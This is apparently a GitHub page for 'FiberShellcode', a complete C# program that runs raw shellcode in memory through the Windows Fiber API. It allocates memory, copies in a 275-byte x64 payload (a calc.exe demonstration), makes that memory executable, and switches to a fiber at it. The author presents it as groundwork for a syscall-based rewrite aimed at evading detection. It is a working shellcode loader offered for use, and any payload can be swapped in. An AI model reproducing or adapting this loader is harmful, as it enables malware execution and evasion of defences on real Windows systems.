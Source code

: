 # FiberShellcode
Execute shellcode with Fiber, basic steps before rewrite to syscall, I use csc.exe to compile.


Fiber.cs:

using System;
using System.Runtime.InteropServices;

public class code
{
    public const uint MEM_COMMIT = 0x00001000;
    public const uint MEM_RESERVE = 0x00002000;
    public const uint PAGE_EXECUTE_READWRITE = 0x40;
    public const uint GENERIC_ALL = 0x1FFFFF;
    public const uint PAGE_READWRITE = 0x04;

    [DllImport("kernel32.dll")]
    extern static IntPtr ConvertThreadToFiber(int fiberData);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateFiber(uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter);

    [DllImport("kernel32.dll")]
    extern static IntPtr SwitchToFiber(IntPtr fiberAddress);

    [DllImport("kernel32.dll")]
    extern static void DeleteFiber(IntPtr fiberAddress);

    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

    [DllImport("Kernel32.dll", SetLastError=false)]
    static extern void RtlMoveMemory(IntPtr dest, IntPtr src, int size);


    public static void Main()
    {
          // sc shellcode pop calc
          byte[] sc = new byte[275] {  72,131,228,240,232,192,0,0,0,65,81,65,80,82,81,86,72,49,210,101,72,139,82,96,72,139,82,24,72,139,82,32,72,139,114,80,72,15,183,74,74,77,49,201,72,49,192,172,60,97,124,2,44,32,65,193,201,13,65,1,193,226,237,82,65,81,72,139,82,32,139,66,60,72,1,208,139,128,136,0,0,0,72,133,192,116,103,72,1,208,80,139,72,24,68,139,64,32,73,1,208,227,86,72,255,201,65,139,52,136,72,1,214,77,49,201,72,49,192,172,65,193,201,13,65,1,193,56,224,117,241,76,3,76,36,8,69,57,209,117,216,88,68,139,64,36,73,1,208,102,65,139,12,72,68,139,64,28,73,1,208,65,139,4,136,72,1,208,65,88,65,88,94,89,90,65,88,65,89,65,90,72,131,236,32,65,82,255,224,88,65,89,90,72,139,18,233,87,255,255,255,93,72,186,1,0,0,0,0,0,0,0,72,141,141,1,1,0,0,65,186,49,139,111,135,255,213,187,224,29,42,10,65,186,166,149,189,157,255,213,72,131,196,40,60,6,124,10,128,251,224,117,5,187,71,19,114,111,106,0,89,65,137,218,255,213,99,97,108,99,46,101,120,101,0 };
          IntPtr lpAddress = VirtualAlloc( IntPtr.Zero, (UInt32)sc.Length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
          IntPtr uPtr = Marshal.AllocHGlobal(sc.Length);
  				Marshal.Copy(sc, 0, uPtr, sc.Length);
          RtlMoveMemory( lpAddress, uPtr, sc.Length);
          uint OldProtection = 0;
          bool result = VirtualProtect( lpAddress, (UInt32)sc.Length, PAGE_EXECUTE_READWRITE, out OldProtection);
          IntPtr ThreadToFiber = ConvertThreadToFiber( 0 );
          IntPtr PtrToFiber = CreateFiber( 0, lpAddress, IntPtr.Zero );
          SwitchToFiber(PtrToFiber);
          DeleteFiber(PtrToFiber);
          Marshal.FreeHGlobal(uPtr);
     }
}
